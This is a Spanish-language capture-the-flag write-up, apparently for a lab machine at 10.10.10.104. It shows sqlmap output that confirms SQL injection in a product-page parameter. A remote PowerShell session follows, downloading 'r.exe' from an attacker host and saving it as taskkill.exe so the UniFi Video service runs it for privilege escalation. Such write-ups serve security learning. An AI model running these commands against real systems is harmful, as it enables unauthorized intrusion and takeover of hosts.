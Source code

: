 Iniciamos usando sqlmap sin opciones para analizar el resultado:

``` text
xbytemx@laptop:~$ sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.2#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:55:54 /2019-02-15/

[11:55:54] [INFO] testing connection to the target URL
[11:55:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:55:55] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
do you want sqlmap to try to detect backend WAF/IPS? [y/N]
[11:55:59] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[11:55:59] [INFO] testing if the target URL content is stable
[11:55:59] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit]
[11:56:18] [INFO] searching for dynamic content
[11:56:18] [INFO] dynamic content marked for removal (1 region)
[11:56:19] [INFO] testing if GET parameter 'ProductSubCategoryId' is dynamic
[11:56:19] [INFO] GET parameter 'ProductSubCategoryId' appears to be dynamic
[11:56:19] [INFO] heuristic (basic) test shows that GET parameter 'ProductSubCategoryId' might be injectable (possible DBMS: 'Microsoft SQL Server')
[11:56:19] [INFO] testing for SQL injection on GET parameter 'ProductSubCategoryId'
it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1) values? [Y/n]
[11:56:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:56:30] [WARNING] reflective value(s) found and filtering out
[11:56:30] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[11:56:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:56:30] [INFO] GET parameter 'ProductSubCategoryId' is 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)' injectable
[11:56:30] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[11:56:31] [INFO] GET parameter 'ProductSubCategoryId' is 'Microsoft SQL Server/Sybase inline queries' injectable
[11:56:31] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:56:31] [WARNING] time-based comparison requires larger statistical model, please wait................... (done)
[11:56:45] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[11:56:45] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:56:56] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF)' injectable
[11:56:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:56:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:56:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:56:57] [INFO] target URL appears to have 25 columns in query
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService